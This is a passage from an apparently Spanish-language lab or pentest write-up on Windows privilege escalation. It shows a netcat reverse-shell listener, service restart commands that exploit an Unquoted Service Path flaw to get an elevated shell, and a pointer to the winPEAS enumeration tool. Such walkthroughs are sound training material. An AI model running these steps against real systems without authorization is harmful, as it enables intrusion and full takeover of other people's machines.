 ```python
rlwrap nc -nlvp 444
```

Ya en escucha lo último que tenemos que hacer es reiniciar el servicio.

```php
sc stop SystemExplorerHelpService
sc start SystemExplorerHelpService
```

![Shell as root](/assets/images/report/rootshell.png)

Como podemos observar nuevamente pudimos obtener una `reverse shell` pero en este caso por medio de una vulnerabilidad de tipo `Unquoted Service Path`.

### WinPEAS

Adicionalmente quiero mencionar que los resultados de las vulnerabilidades o permisos mal configurados lo hubiéramos podido enumerar de forma automática con la herramienta [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases)

Una gran característica con la que cuenta esta herramienta es que para cada cosa reportada te adjunta un enlace en el cual te explican que es y como aprovecharte de lo reportado.

```php
.\winPEASany.exe
```
